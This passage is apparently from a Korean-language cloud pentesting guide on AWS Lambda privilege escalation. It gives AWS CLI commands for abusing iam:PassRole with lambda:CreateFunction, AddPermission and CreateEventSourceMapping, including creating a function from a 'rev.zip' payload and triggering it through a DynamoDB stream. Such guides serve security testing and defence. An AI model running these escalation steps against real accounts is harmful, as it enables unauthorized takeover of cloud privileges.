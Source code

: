 ```python
'session': str(sessiontoken)
}
```

```bash
aws lambda invoke --function-name <lambda_name> output.txt
cat output.txt
```
**잠재적 영향:** 지정된 임의의 람다 서비스 역할로 직접적인 권한 상승.

{% hint style="danger" %}
흥미롭게 보일 수 있지만 **`lambda:InvokeAsync`**는 단독으로 **`aws lambda invoke-async`**를 실행할 수 없음을 유의하세요. `lambda:InvokeFunction`도 필요합니다.
{% endhint %}

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:AddPermission`

이전 시나리오와 마찬가지로, **`lambda:AddPermission`** 권한이 있다면 **`lambda:InvokeFunction`** 권한을 **부여할 수 있습니다.**
```bash
# Check the previous exploit and use the following line to grant you the invoke permissions
aws --profile "$NON_PRIV_PROFILE_USER" lambda add-permission --function-name my_function \
--action lambda:InvokeFunction --statement-id statement_privesc --principal "$NON_PRIV_PROFILE_USER_ARN"
```
**잠재적 영향:** 지정된 임의의 람다 서비스 역할로 직접 권한 상승.

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateEventSourceMapping`

**`iam:PassRole`, `lambda:CreateFunction`, 및 `lambda:CreateEventSourceMapping`** 권한이 있는 사용자(그리고 잠재적으로 `dynamodb:PutItem` 및 `dynamodb:CreateTable`)는 **`lambda:InvokeFunction`** 없이도 간접적으로 **권한을 상승**시킬 수 있습니다.\
그들은 **악성 코드를 포함한 Lambda 함수를 생성하고 기존 IAM 역할을 할당**할 수 있습니다.

사용자는 Lambda를 직접 호출하는 대신, 기존 DynamoDB 테이블을 설정하거나 활용하여 이벤트 소스 매핑을 통해 Lambda와 연결합니다. 이 설정은 테이블에 새 항목이 추가될 때 Lambda 함수가 **자동으로 트리거**되도록 보장하며, 이는 사용자의 행동이나 다른 프로세스에 의해 이루어져 Lambda 함수를 간접적으로 호출하고 전달된 IAM 역할의 권한으로 코드를 실행합니다.
```bash
aws lambda create-function --function-name my_function \
--runtime python3.8 --role <arn_of_lambda_role> \
--handler lambda_function.lambda_handler \
--zip-file fileb://rev.zip
```
만약 DynamoDB가 AWS 환경에서 이미 활성화되어 있다면, 사용자는 **Lambda 함수에 대한 이벤트 소스 매핑을 설정해야** 합니다. 그러나 DynamoDB가 사용되지 않는 경우, 사용자는 **스트리밍이 활성화된 새 테이블을 생성해야** 합니다:
```bash
aws dynamodb create-table --table-name my_table \
--attribute-definitions AttributeName=Test,AttributeType=S \
--key-schema AttributeName=Test,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES
```
이제 **이벤트 소스 매핑을 생성하여 Lambda 함수를 DynamoDB 테이블에 연결**할 수 있습니다:
```bash
aws lambda create-event-source-mapping --function-name my_function \
--event-source-arn <arn_of_dynamodb_table_stream> \
--enabled --starting-position LATEST
```
DynamoDB 스트림에 연결된 Lambda 함수와 함께 공격자는 **DynamoDB 스트림을 활성화하여 Lambda를 간접적으로 트리거할 수 있습니다**. 이는 **DynamoDB 테이블에 항목을 삽입함으로써** 수행할 수 있습니다:
```bash
aws dynamodb put-item --table-name my_table \
--item Test={S="Random string"}
```
**잠재적 영향:** 지정된 lambda 서비스 역할로 직접적인 권한 상승.
